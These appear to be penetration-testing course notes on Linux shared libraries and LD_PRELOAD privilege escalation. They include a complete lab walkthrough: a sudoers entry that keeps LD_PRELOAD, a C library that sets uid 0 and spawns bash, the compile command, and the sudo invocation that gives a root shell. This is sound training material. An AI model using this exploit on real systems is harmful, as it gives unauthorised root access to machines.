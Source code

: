 It is common for Linux programs to use dynamically linked shared object libraries. 
* Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. 
* Two types of libraries exist in Linux: 
	* `static libraries` (denoted by the .a file extension) and 
	* `dynamically linked shared object libraries` (denoted by the .so file extension). 
		* When a program is compiled, static libraries become part of the program and can not be altered. 
		* However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. 
This includes:
* the `-rpath` or `-rpath-link` flags when compiling a program, 
* using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, 
* placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.
Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. 
* ***The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the `ldd` utility.**
```shell-session
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```
The image above lists all the libraries required by `/bin/ls`, along with their absolute paths.

## LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

This user has rights to restart the Apache service as root, 
* but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could NOT be used to escalate privileges under normal circumstances. 
* However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can compile this as follows:

```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```